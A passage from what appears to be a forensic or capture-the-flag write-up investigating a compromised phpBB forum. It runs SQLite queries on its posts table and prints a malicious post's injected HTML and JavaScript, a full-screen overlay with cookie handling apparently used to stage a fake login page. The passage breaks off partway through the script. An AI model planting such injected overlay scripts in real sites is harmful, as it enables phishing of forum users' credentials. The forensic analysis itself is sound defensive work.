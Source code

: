```
CREATE INDEX "idx_phpbb_posts_post_username" ON "phpbb_posts" (`post_username`);
CREATE INDEX "idx_phpbb_posts_post_visibility" ON "phpbb_posts" (`post_visibility`);

```

I’ll get interesting columns for posts with the `poster_id` of 52:

```

sqlite> select post_id, forum_id, topic_id, poster_ip, datetime(post_time, 'unixepoch'), post_username, post_subject, post_attachment, post_edit_count from phpbb_posts where poster_id = 52;
9|2|2|10.10.0.78|2023-04-25 12:17:22||Hello Everyone|0|0

```

Searching by `post_ip` returns the same single post, with `post_id` of 9 (Task 3), that was created at 1682425042, which is Tuesday, April 25, 2023 12:17:22 PM.

#### Post Analysis

The query `select post_text from phpbb_posts where poster_id = 52;` returns HTML content which beautifies to:

```

<div>
  <style>
    body {
      z-index: 100;
    }

    .modal {
      position: fixed;
      top: 0;
      left: 0;
      height: 100%;
      width: 100%;
      z-index: 101;
      background-color: white;
      opacity: 1;
    }

    .modal.hidden {
      visibility: hidden;
    }
  </style>
  <script type="text/javascript">
    function sethidden() {
      const d = new Date();
      d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
      let expires = "expires=" + d.toUTCString();
      document.cookie = "phpbb_token=1;" + expires + ";";
      var modal = document.getElementById('zbzbz1234');
      modal.classList.add("hidden");
    }
    document.addEventListener("DOMContentLoaded", function(event) {
      let cookieexists = false;
      let name = "phpbb_token=";
      let cookies = decodeURIComponent(document.cookie);
      let ca = cookies.split(';');
      for (let i = 0; i < ca.length; i++) {
        let c = ca[i];
        while (c.charAt(0) == ' ') {
          c = c.substring(1);
        }
        if (c.indexOf(name) == 0) {
```